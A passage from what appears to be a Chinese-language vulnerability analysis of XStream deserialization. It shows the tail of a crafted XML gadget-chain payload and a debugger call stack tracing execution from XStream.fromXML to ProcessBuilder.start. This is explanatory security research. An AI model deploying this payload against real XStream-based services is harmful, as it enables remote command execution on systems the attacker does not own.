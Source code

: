 ```xml
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

###### 调试分析

下断点调试查看调用栈，直接将断点下在ProcessBuilder.start方法。

```
start:1007, ProcessBuilder (java.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
filter:613, ImageIO$ContainsFilter (javax.imageio)
advance:834, FilterIterator (javax.imageio.spi)
next:852, FilterIterator (javax.imageio.spi)
chooseFirstProvider:749, Cipher (javax.crypto)
update:1831, Cipher (javax.crypto)
getMoreData:139, CipherInputStream (javax.crypto)
read:246, CipherInputStream (javax.crypto)
readFrom:65, ByteArrayOutputStreamEx (com.sun.xml.internal.bind.v2.util)
get:182, Base64Data (com.sun.xml.internal.bind.v2.runtime.unmarshaller)
toString:286, Base64Data (com.sun.xml.internal.bind.v2.runtime.unmarshaller)
getStringValue:121, NativeString (jdk.nashorn.internal.objects)
hashCode:117, NativeString (jdk.nashorn.internal.objects)
hash:339, HashMap (java.util)
put:612, HashMap (java.util)
putCurrentEntryIntoMap:113, MapConverter (com.thoughtworks.xstream.converters.collections)
populateMap:98, MapConverter (com.thoughtworks.xstream.converters.collections)
populateMap:92, MapConverter (com.thoughtworks.xstream.converters.collections)
unmarshal:87, MapConverter (com.thoughtworks.xstream.converters.collections)
convert:72, TreeUnmarshaller (com.thoughtworks.xstream.core)
convert:65, AbstractReferenceUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:66, TreeUnmarshaller (com.thoughtworks.xstream.core)
convertAnother:50, TreeUnmarshaller (com.thoughtworks.xstream.core)
start:134, TreeUnmarshaller (com.thoughtworks.xstream.core)
unmarshal:32, AbstractTreeMarshallingStrategy (com.thoughtworks.xstream.core)
unmarshal:1157, XStream (com.thoughtworks.xstream)
unmarshal:1141, XStream (com.thoughtworks.xstream)
fromXML:1105, XStream (com.thoughtworks.xstream)
fromXML:1047, XStream (com.thoughtworks.xstream)
main:9, XStreamPoc (org.zlg)
```

